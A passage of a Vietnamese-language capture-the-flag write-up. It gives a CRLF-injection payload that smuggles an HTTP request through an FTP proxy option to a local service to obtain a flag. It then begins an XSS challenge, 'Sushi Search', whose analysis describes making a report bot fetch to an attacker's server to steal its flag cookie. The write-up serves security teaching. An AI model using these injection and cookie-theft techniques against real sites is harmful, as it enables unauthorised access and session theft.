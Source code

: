 username=admin

Chuyển đổi CRLF ta có 

```flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadmin```

Vậy payload cuối cùng ta có là

`name=flag%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%2F5000%0APassword%3A%20admin%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2014%0A%0Ausername%3Dadminn&hello=&protocol=ftp&options={"ftp":{"proxy":"127.0.0.1:5000"}}`

Send request và ta có flag

![image](./images/image72.png)

Flag : INTIGRITI{fake_flag}

## Sushi Search 

![image](./images/image73.png)

#### Source 

https://drive.google.com/file/d/1jTPtaBPfvDlrWzAx9rKx8K2Lip2xX5Ll/view?usp=sharing

#### Hints

XSS, Missing charset, Boost character set

#### Solution

Đề bài cho mình một trang web sau

![image](./images/image74.png)

![image](./images/image75.png)

Source code của web :

<details><summary>index.js</summary></details>

<details><summary>bot.js</summary></details>

Phân tích : 
* Trang web có 2 endpoint cần lưu ý là search và report
* Ở /search khi ta nhập vào param search thì trang web sẽ tìm các sushi có filter liên quan đến param đó, nhưng sẽ bị sanitized trước khi được render ra result.ejs
* Ở /report là trang web nhận vào 1 url để gọi 1 bot visit có chứa flag trong cookie
* Như mọi bài XSS, nhiệm vụ của chúng ta là gọi bot để visit và fetch về server riêng từ đó lấy được cookie và những thông tin khác.
* Nhưng mà làm gì dễ thế... các url khi ta truyền vào bị sanitized trước khi render nên mình không thể thực hiện xss như bình thường được nên phải thông qua một cách nào đó 
* Và có một vấn đề mình có thể khai thác đó là trang web bị thiếu charset trong các response mình gửi lên 

![image](./images/image76.png)

```